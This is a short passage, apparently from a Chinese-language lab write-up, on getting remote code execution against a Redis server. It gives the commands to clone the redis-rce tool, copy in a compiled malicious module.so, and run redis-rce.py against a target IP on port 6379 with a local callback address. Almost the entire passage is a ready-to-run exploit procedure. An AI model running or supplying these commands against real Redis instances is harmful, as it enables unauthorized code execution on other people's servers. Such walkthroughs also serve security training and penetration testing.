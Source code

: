 ![image-20210906140447849](/assets/images/20210911/image-20210906140447849.png)

加载RCE脚本，直接利用即可

```
git clone https://github.com/Ridter/redis-rce.git

cd redis-rce/

cp ../RedisModules-ExecuteCommand/src/module.so ./    //将生成的恶意文件copy到rce脚本目录下

pip install -r requirements.txt 
```

![image-20210906141002597](/assets/images/20210911/image-20210906141002597.png)

```
python redis-rce.py -r 192.168.28.152 -p 6379 -L 192.168.28.137 -f module.so  
//python redis-rce.py -r 目标ip-p 目标端口 -L 本地ip -f 恶意.so
```

![image-20210906140649303](/assets/images/20210911/image-20210906140649303.png)

